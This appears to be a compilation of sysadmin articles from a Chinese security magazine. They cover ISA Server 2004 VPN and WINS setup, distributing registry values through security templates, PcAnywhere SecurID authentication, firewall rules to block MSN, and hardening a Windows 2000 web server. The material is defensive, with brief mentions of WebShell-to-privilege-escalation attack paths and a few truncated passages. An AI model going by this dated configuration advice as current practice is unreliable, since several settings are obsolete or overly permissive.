> **刘流：** 上面的操作不但在 ISA 中创建了一个新的网络 `branch`（可以在“配置/网络/网络”下看到），而且也同步了 RRAS 中的相关设置（甚至到 branch 的路由都创建好了），因为 ISA 本身就是利用 RRAS 中的 VPN 功能。所以如果要修改与 VPN 相关的设置，请直接在 ISA 中进行，不要在 RRAS 进行，因为 ISA 会同步 RRAS 的设置，但 RRAS 并不会同步 ISA 中的设置。

#### 3）创建网络规则

我们通过 VPN 把总部网络和分公司网络连接起来了，但由于 ISA Server 的防火墙作用，它们之间还不能自由访问，必须创建相应的网络规则和访问规则才行。首先创建相应的网络规则，这里就是创建 `branch` 网络与内网之间的网络规则。方法是在 ISA 管理窗口右击“配置/网络”，选择“新建/网络规则”，各项参数如下：

- 网络规则名称：branch 与内网
- 网络通讯源：branch
- 网络通讯目标：内部
- 网络关系：路由

#### 4）创建访问规则

访问规则是各种防火墙控制通信的依据。这里我们允许总部网络与分公司网络可以自由互访。需要创建两条访问规则：一条是允许分公司访问总公司，参数如下。

- 访问规则名称：允许 branch 访问内网
- 规则操作：允许
- 协议：所有出站通讯
- 访问规则源：branch
- 访问规则目标：内部
- 用户集：所有

另外一条访问规则是允许总公司访问分公司，参数如下：

- 访问规则名称：允许内网访问 branch
- 规则操作：允许
- 协议：所有出站通讯
- 访问规则源：内部
- 访问规则目标：branch
- 用户集：所有

- 2. 在分公司 ISA Server 2004 上的操作

我们还需要在分公司的 ISA Server 2004 上进行与总公司类似的操作，只是某些参数需要改变，下面简单说明一下。

- 1）同样创建一个远程站点网络，参数如下：

| 参数 | 值 |
|---|---|
| 网络名 | main |
| VPN 协议 | PPTP |
| 远程站点网关 | shukoshi.3322.org（总公司 VPN 服务器域名） |
| 远程身份验证-用户名 | branch |
| 远程身份验证-域 | cc2（总公司 VPN 服务器 NETBIOS 名） |
| 远程身份验证-密码 | ****** |
| 网络地址 | 192.168.0.0–192.168.0.255 |

- 2）在计算机管理窗口中创建用户 `main` 并允许其远程拨入。
- 3）创建远程站点网络 `main` 与内网的网络规则，网络关系为路由。
- 4）创建两条访问规则，允许 `main` 访问内网和允许内网访问 `main`。

此时你就可以使用 Ping 命令测试两个网络的互通性了，如果一切无误，Ping 将成功。

### 在局域网络安装 WINS 服务器群配置

要让两个网络都能够在网上邻居中看到对方，我们需要借助 WINS 的帮助，所以如果总部网络没有 WINS 服务器，请安装一台。安装好之后请把 WINS 服务器本身、总部网络及分公司网络客户机的 WINS 都指向它，方法是在 TCP/IP 的高级设置窗口中进行配置，如图6所示。另外，如果你的网络是通过 DHCP 分配 IP 及相关参数……数的，可以在作用域选项中分配 WINS 服务器地址及节点类型，你可以创建两个选项 044 和 046，044 对应 WINS 的 IP，046 值设为 0x8。但不能指望两个网络使用一个 DHCP 服务器，除非你在 ISA 服务器上配置 DHCP 中继代理。由于篇幅所限，对于使用 DHCP 中继代理这里就不讲了。

#### 1. 在分公司网络进行相应操作

分公司网络内的客户机除了要把 WINS 指向总部网络的 WINS 服务器外，我们还应该把分公司网络的工作组名改成与总部域名一样。比如我这里总部域名为 fzz.com，那么分公司网络的工作组名就应该改为 fzz。当然，如果你分公司与总公司位于同一个域，这一步就免了。更改方法是在桌面上右击“我的电脑”，进入“属性/计算机名”标签，点击“更改”，在“工作组”栏输入相应的名称，比如 fzz。之所以更改为与域名一样，是为了提高网上邻居的浏览速度和减少浏览故障。

#### 2. 怎样让漫游 VPN 用户出现在网上邻居中

这里的漫游 VPN 用户是指那些直接接入 VPN 服务器的用户，比如那些出差在外的朋友接入公司 VPN 服务器。要让这种用户出现在网上邻居中，我们可以按下面的步骤进行设置（以接入总部 VPN 服务器为例）：

- 1）在 ISA 管理窗口中选中“虚拟专用网络”，然后在中间窗格中选择“VPN 客户端”并点击右窗格中的“启用 VPN 客户端访问”，这样就使得用户可以直接接入 VPN 服务器了。
- 2）同样在上面的右窗格中点击“定义地址分配”，在弹出窗口点击“高级”按钮，进入图 7 所示的窗口，在“使用下列 WINS 服务器地址”栏填入 WINS 服务器地址。这个地址将在用户接入 VPN 时分配给他。从图 7 可以看出，除了 WINS 地址，我们还可以把 DNS 配置也分配给 VPN 拨号用户。
- 3）创建 VPN 客户端与内网相互访问的访问规则。在 ISA Server 2004 中，VPN 客户端是一个专门的网络，它要访问内网必须创建一条相应的访问规则；如果内网要访问 VPN 客户端，也必须创建一条内部到 VPN 客户端网络的访问规则。
- 4）对于客户端来说仍然需要把工作组名改成与域名一样，当然，分公司与总部位于同一个域就不必更改了。

好了，经过上面的设置，现在已经能实现 VPN 之间的相互访问了。老规矩，有什么需要我写的，请到黑防论坛发帖。

适合读者：网管  
前置知识：域服务器基本操作

### 域内批量分发注册表

文/图 小米

我想很多网管朋友都遇到过这样一种情况，就是需要在域内所有的机器上更改某项注册表设置，如果一台一台地去修改，实在是一件效率不高又累人的事情。我就曾遇到过这种情况，直到我自定义安全模板之后：因为通过自定义安全模板，我就可以在整个域范围内使用组策略分发注册表设置，再也不必到桌面进行操作了。

安全模板是组策略的一个组成部分，这里的安全模板表现在组策略窗口下的“计算机配置/Windows 设置/安全设置/本地策略/安全选项”。虽然说是安全相关的选项，实际上它可以容纳各种注册表设置，而并非一定要是安全相关的设置。我这里的实际情况就不是安全相关的设置。

安全模板主要由 Sceregvl.inf 文件控制，它位于 `%windir%\inf` 目录下。图 1 是这个文件的一部分。这个文件初看起来很复杂，实际上很简单，它由 `[Version]`、`[Register Registry Values]` 和 `[Strings]` 3 个小节组成，很像 INI 文件的结构。其中 `[Version]` 指明此文件的版本，`[Register Registry Values]` 是我们主要关注的部分，它是注册表键路径及相关设置，而 `[Strings]` 是 `[Register Registry Values]` 小节中变量的赋值区。下面我们来看看 `[Register Registry Values]` 中每个条目的组成，包括 4 个字段（如图 2 所示）。

- 1. 注册表的路径，形如 `MACHINE\System\CurrentControlSet\Control\Lsa\AuditBaseObjects`，对应于 `HKLM\System\CurrentControlSet\Control\Lsa\AuditBaseObjects`。
- 2. 注册表值的类型，有 5 种类型。

```text
1——REG_SZ，字符串值
2——REG_EXPAND_SZ——扩展字符串值
3——REG_BINARY
4——REG_DWORD
7——REG_MULTI_SZ
```

- 3. 在安全模板中的显示名称可以使用变量，如果使用变量，请用 `%%` 包含起来，并在 `[Strings]` 小节中赋值。
- 4. 显示值的类型如下：

```text
0 - Boolean
1 - Number
2 - String
3 - Choices
4 - Multivalued
6 - Bitmask
```

如果这里是 Choices 或者 Bitmask，那么这些可选值应该被列出来，格式为“值|显示的字符串”，这些可选值之间用逗号分隔，例如：`0|%RA0%,1|%RA1%,2|%RA2%`。

好了，我们知道了安全模板文件的组成，这下我们就可以自定义了：下面就以我的实际例子来讲解。我们公司有个管理软件客户端，在 Windows 2000/XP 中需要修改注册表值和配置环境变量才能使用……下面将说说从自定义安全模板到在域相关 OU 中分发策略的大致步骤。

步骤一：根据要求修改 `Sceregvl.inf` 文件。我在域控制器的 `Sceregvl.inf` 文件中 `[Register Registry Values]` 小节尾部加上了下面的部分。

```text
; 自定义设置部分
; 修改环境变量
MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\sybase,1,"C配置sybase",2
MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\DSQUERY,1,"C配置DSQUERY",2
MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\include,2,"C配置INCLUDE",2
MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\lib,2,"C配置LIB",2
MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\path,2,"C配置PATH",2
; 创建与win98兼容的IP相关配置
MACHINE\SYSTEM\CurrentControlSet\SERVICES\CLASS\NETTRANS\0000\ipaddress,1,"C配置IP地址",2
MACHINE\SYSTEM\CurrentControlSet\SERVICES\CLASS\NETTRANS\0000\ipmask,1,"C配置子网掩码",2


```

其中每个条目第 3 部分的 C 字头是为了便于在安全模板中进行识别，这样一眼就可以看出是自定义设置。  
步骤二：完成了对 `Sceregvl.inf` 的修改，还需要在计算机中登记这些新的入口（也就是新增的自定义设置），在修改此文件的计算机上运行下面的命令（通常都是在 DC 上）：`Regsvr32 %windir%\system32\scecli.dll`。  
步骤三：在相应域或 OU 的组策略窗口中给上面的自定义条目赋值，双击条目，在弹出窗口中赋值或选择即可，如图 4 所示。

注意对于 `REG_EXPAND_SZ` 类型的赋值，请用双引号把它们引起来，比如这里为 `PATH` 环境变量赋值就必须把它引起来，不然它只会应用第一个分号前的值。编辑完之后，你可以在一台客户机上使用 `Gpupdate /target:computer`（XP 支持）来刷新组策略，然后到注册表中检查是否已成功应用了修改。

刘流：现在网络上最流行的各种脚本攻击都是以获得 WebShell 为目标的，而获取 WebShell 后再配合使用率非常高的 Serv-U 和 PcAnywhere，很容易就能实现权限提升并完全控制服务器，这也是现在网管们非常头疼的问题。如何在 PcAnywhere 的层面上做好安全防护，让入侵者即便是获得了 PcAnywhere 的账户和密码也不能登录服务器？这就是本文讨论的问题。

适合读者：入侵爱好者、网络管理员  
前置知识：PcAnywhere 的基本使用方法

### 阻断住了 PcAnywhere 的攻击方法

文/图 Lotos

PcAnywhere 是一款非常著名的远程控制工具，使用它可以轻松地在本地计算机上控制远程计算机，也可使两地的计算机协同工作。网管可以在主控端与被控端之间互传文件，也可以使用其调制功能让多台电脑共享一台 Modem 或提供接入/拨出功能。由于这些特点，PcAnywhere 成为网络管理员的首选之一；但它也有不足之处，如密码文件可逆等问题，一旦配置不当，入侵者获得 WebShell 后可能进一步取得连接密码并登录服务器。

读者可能会说可以限制只允许某些 IP 地址远程管理。这确实是一种方法，但并不完美：管理员并不总在固定地点，ADSL 等网络 IP 与端口可能变化，单纯按固定 IP 限制会带来很大局限性。

从 PcAnywhere 的 11.0 版本开始，支持 SecurID 双重认证。使用 SecurID 双重认证可以在不依赖 IP 限制的情况下增强安全性，即使对方知道 PcAnywhere 的用户名和密码也无法进行连接。

> 本文讲述的是 PcAnywhere 的 SecurID 双重认证机制，如果你对 PcAnywhere 不熟悉，可以先参考联机帮助或其他基础教程。

首先说明需要的软件：Symantec PcAnywhere 和 Symantec Packager（均需先安装）。建议先安装 PcAnywhere，再安装 Symantec Packager，以避免不必要的麻烦。

启动 PcAnywhere 管理界面，来到左边的 PcAnywhere Manager，如图 1 所示。

最下面的图标（Serial ID Sets）是今天的重点。选中它后在右侧区域右键，选择“New -> Item...”，弹出 Serial ID Set Properties 窗口，如图 2 所示。

可在此输入要设置的 Serial ID，必须是数字，且大于 0、小于 4294967296；否则会弹出错误窗口（如图 3）。

可加入多个 Serial ID（文中测试最多 20 个）。要求加入的 Serial ID 在 0 到 4294967296 之间且互不相同，否则会产生错误（如图 4）。

最后点 OK，我们的 Serial ID 文件就准备好了。在窗口的最上方能看到此 Serial ID 文件所在的目录，如果是默认安装，则此文件的路径是 `C:\Documents and Settings\All Users\Application Data\Symantec\PcAnywhere\Serial ID Sets`，也可以把它复制出来到一个容易找到的地方做备份。然后我们请出今天的另外一名主角 Symantec Packager。

> Symantec Packager 是 Symantec 出品的一款可以自定义软件安装包的工具。使用 Symantec Packager 可以创建、修改和创建自定义安装集（或安装包）并将其分发给你网络中的各用户，让管理员能够仅安装所需的元件，避免其他程序占用使用者的硬盘空间和避免安装一些不必要的功能。使用 Symantec Packager 可以通过创建只包含用户所需功能和设置的安装包来定制适合企业环境的安装。另外，Symantec Packager 只适用于 Windows NT/2000，但是，使用 Symantec Packager 创建的定制安装文件可以安装到任何 Microsoft 32 位平台上。

启动 Symantec Packager 可以看到一共有 4 个标签，也就是 Symantec Packager 的全部功能标签。如果按照正常的安装顺序（即先安装 PcAnywhere，再安装 Symantec Packager）安装成功，启动后，第一个界面如图 5 所示，显示当前系统中安装了 Symantec PcAnywhere。

图 5

今天我们只是用到其中的第二个标签，即 Configure Products。打开第二个标签，可以看到 Symantec 已经给你准备好了 6 个内置类型，这里我们拿第一个，也就是 PcAnywhere 的默认安装包进行讲解，其余的都大同小异，可以自己测试。

打开默认安装包之后，出现如下界面（如图 6 所示）。

图 6

第一个标签 Features 包含了 PcAnywhere 的各个功能选项，在这里可以对 PcAnywhere 的各项功能取舍，如果你对 PcAnywhere 不熟悉，还是不要做改动为好。

打开 Configuration Files 标签，如图 7 所示。

图 7

可以对 PcAnywhere 安装程序包中的文件进行逐一定制，这里到了我们今天讲解的一个重点，即实现 SecurID 双重认证的最关键一环。在窗口中选择“Host Security IDs File（*.SID）”，使之高亮显示，然后点击“Add...”按钮，浏览你存放的 SID 文件的位置，点确定，此文件即被加入此安装包中。

此时，单击最下方的“Build”即可以生成具有双重认证功能的安装包。如果还想定制其他的选项，则可以按照自己的意愿选择，如 Remote Files（*.CHF）是主控端连接被控端的配置文件，Host Files 则是被控端主机的配置文件。如果有多台主机需要配置，而且配置完全相同，在这里完全可以将文件选择好，省去重复劳动。

最后单击 Build 按钮，即可生成具有双重认证功能的 Symantec PcAnywhere 安装程序包——`Symantec PcAnywhere.msi`。最后需要做的就是卸载掉你现在电脑上的 Symantec PcAnywhere，在你的计算机和被控端电脑上都安装上我们定制的安装程序包；一切 OK，如图 8 所示。

图 8

就这样，将你生成好的程序安装在某个机器上，这个机器就可以拥有完整的 SecurID 认证了，而在网络中其他计算机上并不具有这样的认证，别人想登录你的 PcAnywhere 也不行！

适合读者：网络管理员、内网用户  
前置知识：无

### 在防火墙后禁用 MSN

我曾在黑防上发表过关于如何在防火墙后禁用 QQ 的文章……在这里我将谈谈另一款流行的 IM 软件 MSN 的禁用方法。与禁用 QQ 同理，禁用 MSN 我们也应该从客户端程序的登录方式入手……这里将以最新的 MSN 7.0 中文版 BETA 版为例讲解。

> IM 是英文 Instant Messaging 的缩写，意思是即时通信。常见的 IM 软件有 ICQ、QQ、MSN 等。

- MSN 登录方式大致有以下几种：
- 1. 通过 MSN 协议进行登录；
- 2. 通过 HTTP 方式进行登录；
- 3. 通过 HTTP 代理登录；
- 4. 通过 Socks4 代理登录；
- 5. 通过 Socks5 代理登录。

下面将分别讲述各种登录方式的基本过程和特点，并给出相应的禁用措施。

> 刘流：这里假设你创建的防火墙规则默认是允许所有外出访问的，以使得这篇文章更具通用性。

#### MSN 协议登录及禁用（TCP/1863 端口）

客户端使用 MSN 协议登录的基本过程如图 1 所示，这个过程可以划分为 4 个阶段（图 1 中相应的连线）。

#### 第一阶段：与 DS 服务器交互（下面 1~4 步）

- 1. 客户端连接到 Dispatch Server（DS）服务器的 TCP 1863 端口（HTTP 方式时对应网关名不同）。
- 2. 客户端与 DS 进行 MSN 协议版本协商。
- 3. 客户端发送本地系统信息给 DS。
- 4. DS 返回推荐的 MSN 客户端版本，并返回 Notification Server（NS）地址，随后断开与客户端连接。

#### 第二阶段：与 NS 交互（下面 5~6 步）

- 5. 客户端连接到 NS 的 TCP 1863 端口，并再次执行类似协商操作。
- 6. 客户端向 NS 发起认证请求，NS 返回用于后续 Passport 认证的字符串。

#### 第三阶段：与 Passport 服务器进行认证交互

- 7. 客户端用户向微软 Passport 服务进行身份认证（通过 HTTPS 方式），成功后获得“凭证”。

> 刘流：真正对用户进行身份鉴定的是微软公司的 Passport 服务，这些服务器是 *.Passport.com 形式。Passport 认证并非 MSN 专用，很多网站都会使用，例如 Hotmail 邮箱登录。

#### 第四阶段：再次与 NS 交互（下面第 8 步）

- 8. 客户端将“凭证”传给 NS，验证通过后成功登录 NS；后续登录可能直接与 NS 通信而不再联系 DS。

上述过程也适用于其他登录方式：先联系 DS，再联系 NS，中间到 Passport 服务器进行认证。禁用这种登录方式的简便方法是直接禁止访问 207.46.104.20（Messenger.hotmail.com）或封禁 TCP/1863 端口；也可封禁 `*.msgr.hotmail.com` 域名集，但不建议封禁 `*.Passport.com` 以免影响其他服务（如 Hotmail 登录）。

> 刘流：从登录过程可看出，登录用到了 TCP/1863 和 TCP/443 两个端口，而不仅仅只有 TCP/1863 端口。

> 一个疑惑：为什么我打开了 1863 端口还是不能登录？现在应该明白了吧。其实如果你创建规则时是“允许需要的，拒绝所有（其他）的”，那么这里不进行上述禁用操作，客户端也不能使用 MSN 协议进行登录。

#### HTTP 协议登录及禁用

即使你没有明确允许客户端以 TCP/1863 方式登录，但你会发现客户端仍然能够登录，这是为什么呢？这是因为当客户端不能以 MSN 协议登录时，它会尝试使用 HTTP 协议进行登录。以 HTTP 方式登录时，客户端使用 POST 命令提交请求，服务器作出相应的应答。图 2 是客户端的初始请求数据包，它是发往 HTTP 方式下的 DS 服务器 Gateway.messenger.hotmail.com 的，这台服务器实际上与 Messenger.hotmail.com 是同一台服务器。
图 2

很明显，由于这种登录方式客户端也要联系 DS 207.46.104.20，所以简单高效的方法仍然是拒绝访问这个 IP 地址，当然也可以拒绝对域名 Gateway.messenger.hotmail.com 的访问，不过前者更高效，因为不必进行应用层检查。

#### HTTP 代理登录及禁用

如果局域网内的上网代理服务器本身就支持 HTTP 代理，只要你在 MSN 中配置使用 HTTP 代理，就会登录成功；但如果你像前面一样禁止了访问 DS，那么登录也不会成功，因为 HTTP 代理服务也会去连接 DS，所以也会被防火墙禁止。

如果 MSN 使用的 HTTP 代理不是内网而是网外的，那又怎么办呢？通常来说，HTTP 代理服务端口是 TCP 8080/80 等，对于非 80 端口，我们可以采取禁用相应端口的办法，比如禁止对 TCP 8080 的访问；但对 TCP 80 就不行了。一个比较好的方法就是采用 HTTP 应用层过滤，检查初始 HTTP 请求报文是否包含特征字符串并采取相应动作。

根据图 2，这里应该检查初始 HTTP 请求报文中是否包含 `HOST: Gateway.messenger.hotmail.com` 字符串。企业级防火墙 ISA Server 2004 支持 HTTP 应用层检查，在 ISA 2004 中你可以这样操作以达到目的。

进入防火墙规则窗口：右击相应的访问规则（即要在它上面进行 HTTP 检查的规则），选择 Configure HTTP，在弹出窗口中切换到 Signatures 标签，点击 Add 按钮，增加一个签名（特征字符串）；如果防火墙检查到有这个特征字符串，就将阻止相应的连接。在这里因为是检查客户端的请求数据包的报头，所以我们在 Search in 栏选择 Request Headers，并在 HTTP Header 和 Signature 栏分别填上包头名和要检查的内容，如图 3 所示。
图 3

当你配置完并应用设置之后，你会发现使用外部 80 端口代理已经不能登录了，在 ISA 日志中你可以看到拒绝原因及拒绝记录。

还有一个问题：我们可以对 TCP 80 代理使用应用层检查，对 TCP 8080 进行端口禁用，但对其他端口呢？总不能一个一个地去禁用吧？其实，这就要看你创建规则是使用什么原则了。推荐采用“允许需要的，拒绝所有的”的原则，而不是“允许所有的，禁止特定的”原则。

另外，在 ISA 2004 中，默认情况下 ISA 只会对内建的 HTTP 协议（TCP 80）进行 HTTP 过滤检查；如果你创建了其他端口的 HTTP 协议，也可以让 ISA 对其进行 HTTP 过滤检查，方法是在 Parameters 标签下的 Application Filter 栏选中 Web Proxy Filter，如图 4 所示。

#### Socks4 和 Socks5 代理登录及禁用

Socks4 和 Socks5 代理登录与上面的 HTTP 代理登录类似，如果客户端使用外网的代理，只封住一些常用的代理端口（如 TCP 1080/1813/3128 等）还不够，对于这些端口之外的就不好办了。这里也再次提醒大家使用“允许需要的，拒绝所有的”的原则创建防火墙规则。

#### 另类 HTTP 隧道登录及禁用

其实还应该有一种比较特殊的登录方式，很多人叫它为 HTTP 隧道，比如现在比较有名的“通通通”。
（数据加密），但也不难看出其缺点，因为第一要使用它需要登录。由于它不可能有很多台登录服务器，所以根据 Sniffer 结果很容易禁止相应登录服务器。另外由于它也需要后台服务器的支持，所以通过 Sniffer 禁止这些后台服务器也不是难事……

- 首先是尽量采取“允许需要的，拒绝所有（其他）”的原则创建防火墙规则。
- 拒绝对 IP 207.46.104.20 的访问。
- 拒绝对 TCP 1863 的访问。
- 对 HTTP 进行应用层检查，阻止包含 Gateway、messenger.hotmail.com 的连接。
- 拒绝对常用代理端口的访问，比如 TCP 8080/1080/3128。
- 关注常见的 HTTP 隧道登录，随时拒绝这类服务登录服务器。

关于“通通通”服务，其网站有明确的解释：“通通通”是一款提供 Socks via HTTP 转换的网络服务……由于它转换后的数据是以 HTTPS 的方式先传给第三方后台服务器的，所以不能对其进行应用层检查。

通过以上的规则，相信在防火墙后禁用 MSN 就再也不是什么难事了！

刘流：最近脚本文坛还是闹得沸沸扬扬，NBSI2 的不断升级，新的注入方法和各种系统漏洞的出现……本期这篇服务器配置文章，重点针对现在网管们头大的虚拟主机的安全设置、各种软件的安全设置、完整的权限配置等方面。

适合读者：网络管理员，服务器维护员，入侵者  
前置知识：Windows 基本操作

### 配置安全服务器

#### 抵御流行攻击
本人的工作是软件开发，爱好网络安全……受朋友所托，为他们安装一台服务器并放在 Internet 上，要求如下：

- 6 个站点的 WWW 服务，其中有几个采用了动易、动网等源码系统建立；
- 6 个站点，两个需要 SQL Server 服务；
- 6 个站点，需要各自独立的 FTP 和 Mail 服务。

安装软件、建立站点很容易，最头痛的是安全问题。网络时代，黑客工具泛滥……我只好自己摸索，著成此文，希望可以帮助大家。

#### 规划

在安装之前，我们要做好仔细的规划，服务器硬件且不管，考虑其他。

##### 1. 采用软件

经考虑使用软件如下：

- 操作系统采用 Windows 2000 Server；
- 数据库除 Access 已支持外，另安装 SQL Server 2000；
- WWW 服务采用 Windows 2000 Server 自带的 IIS 服务；
- FTP 系统采用 Serv-U FTP Server；
- Mail 系统采用 Imail；
- 杀毒软件采用 Norton AntiVirus；
- 防火墙采用 Norton Client FireWall。

工具软件包括 WinRAR、Jmail、PcanyWhere，以上软件均采用最新版。由于本人没接触过 Linux 系统，这里就放弃了 Linux。可能老手会觉得 Linux 比 Windows 2000 更安全，但如果由一个新手来做，我想比用 Windows 2000 更危险，不能拿别人的服务器冒险。其他的软件尽量采用有品牌有知名度的软件。在杀毒软件上我犹豫了很久，想采用国产软件如瑞星、江民，不过最终还是放弃了。杀毒软件、防火墙、远程管理 3 种软件均采用 Symantec，有一个好处：更新时只需要一次 LiveUpdate，3 种软件均更新到最新版本。

##### 2. 硬盘分区规划

- 硬盘分区是一件重要的事，原则是尽量把各服务分别放在不同分区中，便于管理和维护。决定分为 C、D、E、F 4 大分区，均采用 NTFS 格式。
- C 区：操作系统及软件安装区。
- D 区：WWW 站点服务区，包括数据库数据文件也存储在此区。
- E 区：Mail 服务区，所有 Mail 方面的数据均放在此区。
- F 区：备份及杂物区，包括服务器驱动程序、各软件安装程序备份、日常数据备份均在此区。
- 准备笔记本一个、笔一根，以备记录时用。

#### 软件安装

- 安装 Windows 2000 Server：按正常步骤安装。注意安装目录不要用默认的 `C:\Winnt`，可改为其他目录（如 `C:\w1dkn`）。由于另选了 FTP 和 Mail 软件，IIS 中只需 WWW 服务、Internet 管理器、公用文件 3 项。安装完毕后以 Administrator 登录，安装服务器驱动和各软件。需要设置密码的地方都应设置复杂密码并记录。
- 下一步进行安全设置，这是最重要也最容易出问题的环节。

#### 安全配置

- 为防止病毒入侵，在接入网络前先给 Windows 2000 安装 SP4 补丁，再配置本机 IP、子网掩码、网关和 DNS，立即运行 Norton LiveUpdate 更新病毒库。
- 安装 Windows 补丁：从 Windows Update 按提示逐步安装，很多补丁不能同时安装，需要反复重启并再次检查，直到无补丁可装。
- 安装其他软件补丁：如 SQL Server 2000（SP3），安装完成并重启后检查版本是否正确。
- 检查其他软件（如 Serv-U FTP Server、Imail Server）到官网确认补丁与版本。
- 处理计算机用户与组：在“本地用户和组”中给 Administrator 改名（如 Adefyyu），设置复杂密码，删除 Guest。保留必要账户（如 Administrator、IUSR、IWAM、SQLDebugger、TsInternetUser），其他无关账户建议删除并做好记录。
- 设置磁盘目录访问权限：限制网站入侵后的活动范围，避免越权读写。服务器需要 ADO、FSO、JMail、XMLHTTP 等组件时应按需授权。

在磁盘属性的“安全”中添加 Administrator 用户或 Administrators 组，开启子目录权限控制，删除 Everyone（如图 1）。再进入“高级”设置（如图 2）。
勾选“重置所有子对象的权限并允许传播可继承权限”，点击“确定”，将权限控制应用到 C 盘下所有目录；对 D、E、F 分区重复操作。此后硬盘主要由 Administrator 管理，再按需给其他用户分配权限，否则用户将无法访问网站、上传文件和收发邮件。

`C:\Program Files\Common Files\System` 下的 ado 和 oledb 两个目录、Windows 2000 安装目录下的 System32、Temp 和 Internet Logs 3 个目录，在以上目录的“安全”选项卡中，添加 iuser、iwam 用户的“读取及运行”“列出文件目录”“读取”3 项权限。
图 3 添加其他用户的访问控制

D 区是 WWW 服务区，各个站点的目录均要独立设置。添加 Iuser、Iwam 用户的“完全控制”“修改”“读取及运行”“列出文件目录”“读取”“写入”3 项权限，以保证站点能正常运行。这样服务器提供了 ADO、FSO、Jmail 和 XMLHTTP 组件功能，并且其使用范围也做了限制。

- 处理服务：在管理工具中选择“服务”，停止 Alerter、Fax Service、Messenger、Remote Access Auto Connection Manager、Remote Registry Service、SQLSERVERAGENT、Task Scheduler、Telnet、Terminal Services、RunAs Service 等并设置为“禁用”。
- 设置审核策略、本地策略、安全选项：在管理工具中选择“本地安全策略”，打开“本地策略”下的“审核策略”，修改成如图 4 所示。
图 4 设置本地安全策略

如果有黑客进行攻击的话，以上操作会进行有效记录。本来还需要进行“用户权利指派”方面的修改，不过默认情况下已较安全，加上有防火墙，所以不做了。

- 设置 TCP/IP：打开“本地连接”属性，在“此连接使用下列选定的组件”中只保留“Internet 协议 (TCP/IP)”一项。再选中“Internet 协议 (TCP/IP)”，点“属性”→“高级”，在“高级 TCP/IP 设置”中选择 WINS，去掉“启用 LMHOSTS 查询”，并选中“禁用 TCP/IP 上的 NetBIOS”。
- 处理 SQL Server 2000 安全问题：在 SQL Server 2000 安装目录下的 `\MSSQL\Binn` 文件夹中有一个危险的 DLL 组件 Xplog70.dll，将它改名或彻底删除均可。

> 去掉了这个组件后，SQL Server 2000 中数据库的属性就打不开了。

- 设置 WWW 服务：在 Internet 服务管理器中删除默认站点，选择机器名右键“属性”，在“Internet 信息服务”中配置 WWW 服务；调整“主目录”“应用程序映射”“应用程序选项”“应用程序调试”“文档”等选项，去除不必要映射和默认文档，保留必要配置并保存。
- 完成站点默认属性后开始创建站点，新建站点继承默认属性。创建完成后可使用“备份/还原配置”备份站点设置信息，建议逐个站点测试并记录名称、域名、路径。
- 设置 FTP 服务和 Mail 服务：常规设置中勾选拦截 FTP bounce 攻击和“XP”选项；对于 FTP 用户不给“执行”权限，并限制访问目录、设置配额。
- Imail 网上已有很多教程，不再赘述。
- 设置 PcAnyWhere：设置一个呼叫者并配置复杂密码，在 Windows 2000 之外增加一组访问控制，设置完成后在另一台机器上测试是否成功。
- 添加防火墙访问规则：打开 Symantec Client FireWall，进入 Internet 访问控制，选择“添加”并配置可访问 Internet 的软件：

- dllhost.exe（以备 xmlhttp 组件访问外部网站）
- iexplore.exe
- lsass.exe
- lmail 下的几个执行文件（以备收发邮件）
- Serv-U 下的几个执行文件
- Symantec 下的 LiveUpdate
- awhost32.exe（以备 pcanywhere 能响应远端连接）

添加不能访问 Internet 的软件，主要有以下几个：

- sqlmangr.exe
- sqlservr.exe（SQL Server 2000 的外部连接响应）

| 操作 | 连接 | 计算机 | 通信 | 跟踪 | 类型 | 说明 |
|---|---|---|---|---|---|---|
| 允许 Internet 访问 | 来自其他计算机的连接 | 所有计算机 | TCP 和 UDP 端口是 20/21/25/80/110 | 无 | 用户 | 本机服务于 FTP、Mail、Web |
| 允许 Internet 访问 | 来自其他计算机的连接 |  | TCP 和 UDP 端口是 8181、8383 | 无 | 用户 | WebMail 服务 |
| 禁止 Internet 访问 | 来自其他计算机的连接 | 所有计算机 | TCP 和 UDP 端口是 1433/1434/3389 | 无 | 用户 | 禁止访问数据库和终端服务 |
| … |  |  |  |  |  |  |

后续还需添加。设置好规则后，一定要对 WWW、FTP、Mail、PcAnywhere 服务逐个测试，不能有丝毫疏忽。最后还要检查客户端防火墙下入侵检测选项卡中的“启用入侵检测”“启用自动禁止”两个复选框是否选中，如图 7 所示。

> **刘流：**其实我们不用主动添加，只需要进行收发邮件操作、FTP 传文件、访问网站等相应的操作，防火墙均会提示我们如何配置其访问规则，不过 Awhost32.exe 需要手工添加，千万不要忘记。

操作结果如图 5 所示。
图 5 添加 Internet 访问控制

再选择“配置”按钮，选择“系统范围的设置”，设置访问规则，如图 6 所示。
图 6 设置系统访问规则

点“添加”按钮，出现“添加规则向导”对话框，按照向导一步一步操作即可添加。规则如上表所示。规则是按照先后顺序进行检查，所以还要考虑好顺序问题。一般情况下，允许访问的规则在前，禁止访问的规则在后，先在笔记本上照此表设计好访问规则。
图 7 检查入侵检测选项卡

用最新的扫描工具进行站点扫描。到这一步服务器设置告一段落，不过我们还是不能掉以轻心，立刻寻找最新的扫描工具，对站点进行攻击性扫描。先关掉防火墙，然后进行扫描，我用的是 X-Scan，扫描结果还是发现了 3 处漏洞，赶紧想办法补上，补完之后再扫描，直到扫描不到漏洞为止。再开启防火墙进行扫描，一般情况下，有了防火墙后就不会有漏洞了，不过还是扫描一遍放心。

- 备份网站程序和数据库等。扫描完毕，把网站程序和数据库备份到 F 盘，然后就可以把机器搬到电信机房了。
- 做进程快照和服务快照。在机房里接入网络，启动服务器，登录进去后，对当前进程和已启动服务做快照，以后维护时可进行对照。然后再让远程机器用 PcAnyWhere 登录一次，如果一切都正常，可注销用户。

至此，安全设置基本告一段落，以后就是日常的维护工作。我也列了几条。登录后检查以下内容：用户和组、已启动的服务、当前进程列表、日志、最近一周新建的文件（针对各个站点进行查询）；另外还要不定期检查各个安装软件的补丁和动易、动网等系统的补丁情况。做好了以上工作后，基本可保证服务器安全了。当然，如果碰到技术非常厉害的黑客，我估计服务器也经不住攻击，不过千年一遇，真碰到了，我也认了。

适合读者：Linux用户、网管

前置知识：Linux 的基本操作

### 为网上邻居配个垃圾桶

文／刺客微粒

